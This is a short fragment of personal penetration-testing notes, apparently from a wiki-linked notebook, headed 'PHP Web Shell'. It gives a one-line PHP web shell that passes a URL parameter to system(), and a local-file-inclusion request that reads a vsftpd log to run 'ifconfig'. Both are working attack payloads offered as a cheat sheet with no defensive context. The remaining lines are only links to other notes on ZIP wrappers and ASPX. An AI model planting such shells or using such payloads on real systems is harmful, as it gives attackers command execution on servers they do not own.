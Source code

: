 

# PHP Web Shell

## Example shells:

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig
## ZIP Wrapper LFI

[[File include#Unzip File]]

# ASPX

[[Windows ASPX]]